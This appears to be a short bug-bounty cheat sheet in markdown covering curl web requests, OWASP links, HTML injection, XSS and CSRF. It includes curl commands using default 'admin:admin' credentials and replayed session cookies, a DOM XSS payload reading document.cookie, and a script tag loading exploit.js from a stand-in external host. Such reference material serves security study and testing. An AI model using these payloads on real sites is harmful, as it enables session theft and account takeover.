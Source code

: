# Bug Bounty

Overview
---------
1. - [Web Requests](#1---web-requests)
2. - [Online Resources](#2---online-resources)
3. - [Sensitive Data Exposure](#3---sensitive-data-exposure)
4. - [HTML Injection](#4---html-injection)
5. - [Cross-Site Scripting (XSS)](#5---cross-site-scripting-xss)
6. - [Cross-Site Request Forgery (CSRF)](#6---cross-site-request-forgery-csrf)

   
#1. - Web Requests
-----------------------------------------

- Curl

```
$ curl -v <URL>
$ curl -I <URL>
$ curl -i <URL>
$ curl -v -X OPTIONS <URL>
$ curl -u admin:admin <URL>
$ curl -H 'Authorization: Basic YWRtaW46YWRtaW4=' <URL>
$ curl <URL>/search.php?search=test
$ curl -X POST -d 'username=admin&password=admin' <URL>
$ curl -X POST -d '{"search":"test"}' -H 'Content-Type: application/json' <URL>
$ curl -b 'PHPSESSID=c1nsa6op7vtk7kdis7bcnbadf1' <URL>
$ curl -H 'Cookie: PHPSESSID=c1nsa6op7vtk7kdis7bcnbadf1' <URL>
```

- DevTools

```
F12
```

#2. - Online Resources
-----------------------------------------

- OWASP Web Security Testing Guide

```
https://owasp.org/www-project-web-security-testing-guide/
https://github.com/OWASP/wstg/tree/master/document/4-Web_Application_Security_Testing
```

- HTML - CSS - JS Online Editor

```
https://html-css-js.com/
```

- HTML WYSIWYG Online Editor

```
https://htmlg.com/html-editor/
```

- JSFiddle Code Playground

```
https://jsfiddle.net/
```

#3. - Sensitive Data Exposure
-----------------------------------------

- Source Code

```
Right-click -> View page source
OR
CTRL + U
```

#4. - HTML Injection
-----------------------------------------

- Hyperlink

```
<a href="http://www.google.com">Click Me</a>
```

#5. - Cross-Site Scripting (XSS)
-----------------------------------------

*Reflected XSS	= Occurs when user input is displayed on the page after processing (e.g., search result or error message).*

*Stored XSS = Occurs when user input is stored in the back end database and then displayed upon retrieval (e.g., posts or comments).*

*DOM XSS	= Occurs when user input is directly shown in the browser and is written to an HTML DOM object (e.g., vulnerable username or page title).*

- DOM XSS

```
#"><img src=/ onerror=alert(document.cookie)>
```

#6. - Cross-Site Request Forgery (CSRF)
-----------------------------------------

- Password Change

```
"><script src=//www.example.com/exploit.js></script>
```

